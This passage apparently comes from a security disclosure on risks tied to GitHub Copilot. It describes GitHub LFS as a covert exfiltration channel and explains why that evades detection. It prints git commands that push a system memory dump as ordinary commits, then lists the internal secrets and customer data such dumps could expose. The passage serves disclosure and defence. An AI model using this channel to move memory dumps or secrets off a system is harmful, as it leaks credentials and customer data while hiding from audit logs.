 ### 3. **GitHub LFS as Covert Data Exfiltration Channel**

**The Novel Aspect:** Using GitHub's own Large File Storage system to exfiltrate GitHub's internal data appears as legitimate development activity.

**Why This Bypasses Detection:**
- LFS uploads appear as normal repository activity
- Data is encrypted in transit using GitHub's own infrastructure
- Storage costs are borne by user, not triggering GitHub alerts
- Audit logs show "repository file upload" not "data exfiltration"

**Demonstrated Technique:**
```bash
# This appeared in logs as normal development activity:
git lfs track "*.core*"
git add core.systemd_1.tar.gz
git commit -m "Add memory dump file"
git push origin main
```

## GitHub-Specific Infrastructure Risks

### **Risk 1: GitHub Secrets Manager Exposure**

**Potential Impact:** System memory dumps could contain:
- GitHub's internal encryption keys
- Database master passwords
- API signing keys
- OAuth application secrets
- Internal service certificates

### **Risk 2: GitHub Enterprise Customer Data Exposure**

**Potential Impact:** If Enterprise customers share infrastructure:
- Customer organization secrets in system memory
- Cross-organization data contamination
- Regulatory compliance violations (SOX, GDPR, HIPAA)
- Customer trust and contractual liability

### **Risk 3: GitHub Production Infrastructure Mapping**

**Potential Impact:** Memory dumps reveal:
- Internal service URLs and endpoints
- Infrastructure topology and dependencies  
- Monitoring and security system architecture
- Backup and disaster recovery systems

## Comparative Analysis: Why These Are Unique to Copilot

### Traditional GitHub Attack Vectors vs Copilot Vectors

**Traditional Repository Compromise:**
- Scope: Single repository or organization
- Access: Repository contents and secrets
- Detection: Code review, audit logs, security scanning
- Attribution: Clear malicious intent in code
